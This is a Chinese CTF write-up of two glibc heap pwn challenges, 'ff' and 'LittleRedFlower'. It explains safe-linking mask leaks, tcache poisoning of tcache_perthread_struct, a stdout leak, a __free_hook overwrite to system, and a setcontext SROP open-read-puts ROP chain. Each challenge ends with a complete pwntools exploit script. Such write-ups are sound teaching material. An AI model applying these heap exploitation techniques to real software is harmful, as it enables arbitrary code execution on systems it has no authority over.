




###### 一点废话
2021年三月某个周日,安排本来是上午运动,下午打这个比赛. 然而篮球斗牛过程中被对手爆了头,昏了一整天,遂将这比赛鸽了...
过了一个月,回头看下比赛中的pwn题.

## ff
glibc 2.32, 需要疯狂调试的一道题,令人昏迷.

### 程序分析

#### 漏洞
`free` 后指针未清空. 

#### 坑点
- 没用数组存储指针, 只能控制上一个`malloc()`的chunk
- 能`malloc()`的最大大小为0x7F (之后会发现这点把最后利用时使用的size卡的很死)
- `show()` 只能用一次, 应该是要打stdout了
- `edit()` 只能用两次... 
- 2.32中, tcache_entry 中的next指针会被`PROTECT_PTR`函数异或处理, 使用的mask为其地址>>12. 

### 思路
1. 利用`PROTECT_PTR`:  利用next值为0的chunk, 和
```
mask ⊕ 0 = mask
```
以上这个特性, `show()`泄露出 mask. mask存放着 堆地址 >> 12. `show()`次数用尽.

2. 通过UAF漏洞, `edit()`修改`tcache_entry`中的key值. `tcache_entry`使用用户chunk中的用户数据,key就在所谓bk指针的位置. 修改完key值,就可以绕过检查进行`double free()`.

3. 通过`edit()`做`tcache poisoning`, 劫持到`tcache_perthread_struct`. 需注意tcache_entry->next 指向的是用户数据段, 因此需要劫持的地址需要加上0x10. 还需要用之前泄露出的mask对其做一次异或. `edit()`次数用尽.
```
edit(p64(mask ^ (heap_base + 0x10))+p64(0))
```

4. `tcache_perthread_struct`大小为0x290, 我们把`counts[0x290]`覆盖成大于等于7,就能将其释放到`unsortedbin`中.

5. 非常重要的一点: 记得我们在`tcache_perthread_struct`操作, 该chunk进入`unsortedbin`中会对`counts[]`进行污染,我们要将其清零. 同时,我们也应当为之后的利用`entries[]`的操作做准备,设置对应的`counts[]`值使其大于零.

6. 利用`unsortedbin`中chunk的分割,将main_arena地址写到`entries[目标大小]`中. 通过partial overwrite 打到`_IO_2_1_stdout_` (需要爆破,1 / 2^4). 
```
此处 payload  = p64(0xfbad1800)+p64(0)*3+"\x00"
```
写入payload,泄露出libc

7. 再次分割,覆盖`entries[目标大小]`为`free_hook`-0x10.(2.32中tcache申请的地址需要0x10对齐).
 因为申请的大小最高为0x7f,这个目标大小不能超过0x90. 这对之前分割时使用的size限制比较死,需要好好调试一下.

8. 写入"/bin/bash", 改free_hook为system, 调用`free`触发system("/bin/bash").

### 总结
2.32 下新的防护机制也带来了新的泄露方式,学到了.
但出题能别把每个方面都限制的那么死么=.=, 调试起来真的痛苦.

### 完整exp

```
from pwn import *
import sys

def init():
    global target
    if len(sys.argv) >1 and sys.argv[1] == 'r':
        target = remote("node3.buuoj.cn",PORT)
    else:
        target=process(["./ld-2.32.so","./pwn"],env={"LD_PRELOAD":"/home/trident/libc/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc.so.6"})
        if(len(sys.argv)>1) and sys.argv[1]=='g':
            gdb.attach(target)

#context.log_level='debug'
#context.update(arch='')
#gdb.attach(target)


def s(i):
    target.recvuntil(">>")
    target.sendline(i)


def add(size,content):
    s("1")
    target.recvuntil("ize:")
    target.sendline(str(size))
    target.recvuntil("Content:")
    target.send(content)

def delete():
    s("2")

def show():
    s("3")

def edit(content):
    s("5")
    target.recvuntil("tent:\n")
    target.send(content)


def pwn():
    add(0x58,"a\n")
    delete()
    show()

    mask = u64(target.recvuntil("1.add",drop=True).ljust(8,'\x00'))
    #success("mask leaked: "+hex(mask))
    heap_base = mask << 12
    #success("heap_base: "+hex(heap_base))
    
    #double free
    edit(p64(0xdeadbeef)*2) 
    delete()
    
    edit(p64(mask ^ (heap_base + 0x10))+p64(0))
    add(0x58,"a\n")
    
    # hijack tcache_perthread_struct
    # overwrite tcache->counts[0x290]
    # 0x27 * 2 = 0x4E
    add(0x58,"\x00"*0x4E + p16(8)) 
    delete()
    
    # now tcache_perthread_struct is in unsortedbin 
    # let's split the chunk into our desired form
    
    # remember to carefully set up tcache->count as we proceed
    add(0x48,p16(0)*3+p16(1)+p16(0)*2+p16(1)+p16(0))
    add(0x30,p64(0xdeadbeef)*2)
    #partial overwrite entry[0x50] to stdout
    add(0x18,p64(0)+"\xc0\x96")
    # fxxk stdout
    add(0x48,p64(0xfbad1800)+p64(0)*3+"\x00") 

# operation after bruteforcing succeed
def pwn2(leak):
    libc_base = leak - 0x1e4744
    success("libc_base leaked: "+hex(libc_base))
    
    free_hook = libc_base + 0x1e6e40
    system = libc_base + 0x503c0
    
    # overwrite entry[0x80] to free_hook
    add(0x18,p64(free_hook-0x10)) 
   
    # write system to free_hook
    add(0x78,"/bin/bash".ljust(16,"\x00") + p64(system)) 
    #BOOOOM!
    delete()
    
    target.interactive()

def main():
    while True:
        try:
            init()
            pwn()
            leak = target.recvuntil('add')
            if "\x7f" in leak:
                leak = u64(leak[1:7].ljust(8,"\x00"))
                success("stdout leak: "+hex(leak))
                pwn2(leak)
            else:
                print("FXXK!")
                target.close()
        except:
            print("FXXK!")
            target.close()
main()
```
---

## LittleRedFlower
`TCACHE_MAX_BINS` 利用, 学到东西了

### 程序分析
白给libc地址, 白给一个一字节任意地址写.



存在一个堆上的八字节任意写.


最后,可以申请一个大chunk并向其中写入数据.


### 利用思路
0. 获取白给的libc地址
1. 通过一字节任意地址写更改`TCACHE_MAX_BINS`为大值; 这里可以动态调试确定偏移,通过
```
search -p tcache_perthread_struc的地址 libc
```
可以定位到`_mp`结构体,从而找到`TCACHE_MAX_BINS`的值.


可以看到,其中0x40即为`TCACHE_MAX_BINS`的默认值.这个值很好理解,`0x410 = 0x40*0x10+0x10`是`tcache`中可存放的最大的chunk. 此处为了方便,直接改写`TCACHE_MAX_BINS+1`的位置,使很大的chunk也能落入`tcache`当中.


2. 通过程序提供的堆溢出,将`__free_hook`写到`entries[idx]`,并获取`__free_hook`. 这里需要满足`counts[idx]`>= 1, 而程序也贴心的准备好了这样一个chunk. (我就喜欢这种题)



在计算`entries[idx]`的偏移时要注意,尽管`TCACHE_MAX_BINS`被改动,`entries`的起始偏移却没有变,仍然是`0x10+0x80 = 0x90`的位置.

计算偏移的方式如下, 用0x1710大小的chunk举例:

```
(0x1710-0x20)/0x10 * 8 + 0x90 = 0xC08
输入的偏移是基于那个程序一开始分配的chunk
因此 
输入偏移 = 0xC08 - 0x2A0 = 0x968
```
另外,还需要验证`counts[0x1710]`是否落在布满'\x01'的chunk上,
```
(0x1710-0x20)/0x10 * 2 + 0x10 = 0x2EE
```
命中!

因此输入偏移`0x968`并写入`__free_hook`,再输入size`0x1700`,就能获得到`__free_hook`.

3. 通过setcontext进行SROP, 同时布置ORW的ROP链, 执行ROP链.

之前对2.29以上版本的setcontext不熟悉,发现需要控制rdx. 这里要用到一个魔法gadget.

```
   0x154b20:	mov    rdx,QWORD PTR [rdi+0x8]
   0x154b24:	mov    QWORD PTR [rsp],rax
   0x154b28:	call   QWORD PTR [rdx+0x20]
```
我们可以通过rdi (此时即__free_hook的地址)控制rdx. 根据gadget,将参数(指向伪栈帧的指针)放在`rdi+8`的位置, 再把`setcontext + 61` 放在`伪栈帧+0x20`的位置.这个布置参考了大佬的文章,利用伪栈帧前面的垃圾空间来为gadget布局,非常巧妙
[https://www.anquanke.com/post/id/235821#h3-6](https://www.anquanke.com/post/id/235821#h3-6) 

之后就是布置伪栈帧与ROP链.

### 完整exp
```
from pwn import *
import sys


if len(sys.argv) >1 and sys.argv[1] == 'r':
    target = remote("node3.buuoj.cn",26222)
else:
   # target = process("")
    target=process(["./ld-2.30.so","./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
    if(len(sys.argv)>1) and sys.argv[1]=='g':
        gdb.attach(target)

context.log_level='debug'
context.arch='amd64'
#context.update(arch='')
#gdb.attach(target)

def writeWhatWhere(where,what):
    target.recvuntil("anywhere\n")
    target.send(p64(where))
    target.recvuntil("what?\n")
    target.send(what)

def pwn():
    libc = ELF("./libc.so.6")
    target.recvuntil("GIFT: ") 
    leak = int(target.recvline(),16)
    success("leak stdout: " + hex(leak))
    tcache_max_bin = leak - 0x13d0
    libc_base = leak-0x1eb6a0
    free_hook = libc_base + 0x1edb20

    success("TCACHE_MAX_BINS: "+hex(tcache_max_bin))

    offset = 0x968
    size = 0x1700 #0x1710
    
    writeWhatWhere(tcache_max_bin+1,"\xff")
    target.recvuntil("Offset:\n")
    target.sendline(str(offset))

    target.recvuntil("Content:\n")
    target.send(p64(free_hook))
    
    target.recvuntil("ize:\n")
    target.sendline(str(size))
    
    # payload constructed here
    
    ret = libc_base + 0x256b9
    pop_rdi = libc_base + 0x26bb2
    pop_rsi = libc_base + 0x2709C
    pop_rdx_r12 = libc_base + 0x11c3b1
    
    the_gadget = libc_base + 0x154b20
    setcontext = libc_base + libc.sym["setcontext"]
    
    frame = SigreturnFrame()
    frame_addr = free_hook+0x10
    
    frame.rax = 0 
    frame.rsp = frame_addr + 0x108
    frame.rip = ret

    ROP_chain = [
            pop_rdi,
            frame_addr + 0xF8,
            libc_base + libc.sym["open"],
            pop_rdi,
            3,
            pop_rsi,
            frame_addr+0x250,
            pop_rdx_r12,
            0x40,
            0,
            libc_base + libc.sym["read"],
            pop_rdi,
            frame_addr+0x250,
            libc_base + libc.sym["puts"]
            ]
    
    
    frame_str = str(frame).ljust(0xf8,"\x00")
    payload = p64(the_gadget) + p64(frame_addr) + p64(0)*4 + p64(setcontext+61)
    payload += frame_str[0x28:] + "./flag\x00\x00"+p64(0) + flat(ROP_chain)


    target.recvuntil(">>")
    target.sendline(payload)

    target.interactive()


target.interactive()
```

## 总结
这两道题都考察了对tcache_perthread_struct的直接攻击,也碰到了未接触过的知识点,好评! 
~~那道VM题鸽了,实在不想看.~~

### 参考
[https://www.anquanke.com/post/id/235821](https://www.anquanke.com/post/id/235821#) 